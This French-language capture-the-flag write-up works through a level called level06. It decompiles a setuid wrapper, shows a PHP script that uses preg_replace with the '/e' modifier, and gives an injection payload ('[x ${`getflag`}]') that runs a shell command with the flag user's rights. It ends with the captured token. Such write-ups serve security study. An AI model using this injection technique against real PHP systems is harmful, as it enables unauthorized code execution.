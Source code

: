 # level06

### Observations

##### Je décompile le programme '~/level06':
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	const char	**v3;
	char		*v4;
	char		*v5;
	__uid_t		v7;
	__gid_t		v8;
	char		**v9;
	char		*v10[11];

	v10[7] = (char *)&argc;
	v3 = argv;
	v9 = (char **)envp;
	v4 = strdup(&s);
	v5 = strdup(&s);
	if ( v3[1] )
	{
		free(v4);
		v4 = strdup(v3[1]);
		if ( v3[2] )
		{
			free(v5);
			v5 = strdup(v3[2]);
		}
	}
	v8 = getegid();
	v7 = geteuid();
	setresgid(v8, v8, v8);
	setresuid(v7, v7, v7);
	v10[2] = v4;
	v10[3] = v5;
	v10[0] = "/usr/bin/php";
	v10[1] = "/home/user/level06/level06.php";
	v10[4] = 0;
	execve("/usr/bin/php", v10, v9);
	return 0;
}
```

##### J'affiche le programme '~/level06.php':
```php
#!/usr/bin/php
<?php
function y($m)
{
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}
function x($y, $z)
{
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

##### Détails des programmes:
```bash
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

##### Entrées du programme '~/level6'
```c
char *chemin_fichier
```

##### Fonctionnement:
Il y a deux programmes:
 1. Le premier est un programme c qui execute un script php '~/level06.php' avec les droit de l'utilisateur 'flag06'.
 2. Le deuxieme applique un motif regex '/(\[x (.*)\])/e' qui transforme le contenue du fichier par le contenu du deuxieme argument après l'avoir évalué.

##### Conclusions:
La fonction de remplacement de motif regex preg_replace avec le parametre '/e' est connue pour avoir des failles. \
En effet le parametre permet d'exécuter du code php. \
Je peux donc exécuter du code shell librement.

### Résolution
Je créé un fichier qui contient mon injection de code, puis je passe le chemin d'acces de ce dernier au programme '~/level6'. \
Le contenue de la deuxieme couche de regex est evaluée en php car l'opérateur '/e' est utilisé. \
Le parseur php execute ensuite 'getflag' car il est entouré par les caractéres '`'. \
J'exécute ensuite le programme.

#### commandes:
```bash
echo '[x ${`getflag`}]' >/tmp/script
./level06 /tmp/script
```

**token :** wiok45aaoguiboiki2tuin6ub